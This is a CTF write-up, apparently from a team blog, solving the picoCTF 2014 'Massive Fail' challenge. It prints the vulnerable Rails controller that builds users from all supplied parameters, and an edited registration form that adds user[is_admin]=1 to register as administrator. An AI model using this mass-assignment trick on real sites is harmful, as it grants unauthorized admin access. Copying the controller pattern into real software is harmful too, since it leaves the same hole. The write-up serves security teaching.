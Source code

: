 ```yaml
---
layout: post
title: "picoCTF 2014 Massive Fail"
date: 2014-11-07 20:13:05 -0500
author: [barrebas]
comments: true
categories: [picoctf]
---
```


### Solved by barrebas

Massive Fail is a 120 point challenge. 

`Fed up with their recent PHP related issues, Daedalus Corp. has switched their website to run on Ruby on Rails (version 3.1.0) instead. Their brand new registration page does not seem like much of an improvement though... [Source].`

We're given the source to a Ruby on Rails website. We need to register as an admin to get the flag. The interesting bit is in `db/schema.rb` and `app/controller/user_controller.rb`.

```
ActiveRecord::Schema.define(:version => 20141008175655) do

  create_table "users", :force => true do |t|
    t.string   "username"
    t.string   "password"
    t.string   "name"
    t.boolean  "is_admin"
    t.datetime "created_at"
    t.datetime "updated_at"
  end

end

class UserController < ApplicationController
  def register     
  end

  def create
    # User.new creates a new user according to ALL the parameters
    @new_user = User.new(params[:user])
    @new_user.save
  end
end
```

The application registers the user using *ALL* supplied parameters. So let's supply a few more, shall we? Download the registration page and "tweak" it a bit:

```html
<form accept-charset="UTF-8" action="http://web2014.picoctf.com:5000/user/create" method="post"><div style="margin:0;padding:0;display:inline"><input name="utf8" type="hidden" value="&#x2713;" /><input name="authenticity_token" type="hidden" value="+yYhUookKb5lZuf2bU97ccd3TWYizvaxFYpWfR5H/b8=" /></div>
  <div class="control-group">
    <label class="control-label" for="user_name">Name</label>:
    <div class="controls">
      <input id="user_name" name="user[name]" size="30" type="text" />
    </div>
  </div>

  <div class="control-group">
    <label class="control-label" for="user_username">Username</label>:
    <div class="controls">
      <input id="user_username" name="user[username]" size="30" type="text" />
    </div>
  </div>

  <div class="control-group">
    <label class="control-label" for="user_password">Password</label>:
    <div class="controls">
      <input id="user_password" name="user[password]" size="30" type="password" />
    </div>
  </div>
    <div class="control-group">
    <label class="control-label" for="user_is_admin">is_admin</label>:
    <div class="controls">
      <input id="user_password" name="user[is_admin]" size="30" type="text" value="1" />
    </div>
  </div>
```

By adding the `user[is_admin]` parameter, the register page thinks we are admin and gives us the flag:

![](/images/2014/pico/massive-fail/daedelus.png)

